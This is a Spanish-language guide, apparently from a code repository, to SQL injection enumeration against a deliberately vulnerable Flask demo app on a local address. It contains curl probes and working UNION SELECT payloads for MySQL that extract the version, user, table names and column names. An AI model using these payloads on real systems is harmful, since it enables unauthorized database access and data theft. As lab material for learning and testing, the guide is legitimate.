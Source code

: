 # 🔍 SQL Injection Database Enumeration Guide

## 📝 Resumen Ejecutivo

Esta guía documenta las técnicas de enumeración sistemática para diferentes motores de base de datos a través de SQL injection, desarrollada mediante análisis empírico de la aplicación vulnerable en `http://192.168.1.3:5000/`.

## 🎯 Aplicación Objetivo

- **URL**: `http://192.168.1.3:5000/`
- **Tipo**: Flask SQL Injection Demo
- **Motores soportados**: MySQL, PostgreSQL, SQL Server, Oracle
- **Punto de inyección**: Parámetro `user` en endpoint `/query`

## 🔧 Metodología General

### 1. Validación de Conectividad
```bash
curl -X GET http://192.168.1.3:5000/
```

### 2. Identificación del Punto de Inyección
```bash
curl -X POST http://192.168.1.3:5000/query \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "database=mysql&user=test"
```

### 3. Descubrimiento de Número de Columnas
Usar técnica UNION SELECT con incremento de columnas hasta encontrar el número correcto.

---

## 🗄️ MYSQL ENUMERATION

### 📊 Información del Sistema
```sql
' UNION SELECT 1,@@version,DATABASE(),USER(),NOW() -- 
```

### 🏗️ Enumeración de Tablas
```sql
' UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,'mysql_tables',NOW() FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA=DATABASE() -- 
```

### 📋 Enumeración de Columnas
```sql
' UNION SELECT 1,COLUMN_NAME,DATA_TYPE,'users_columns',NOW() FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME='users' -- 
```
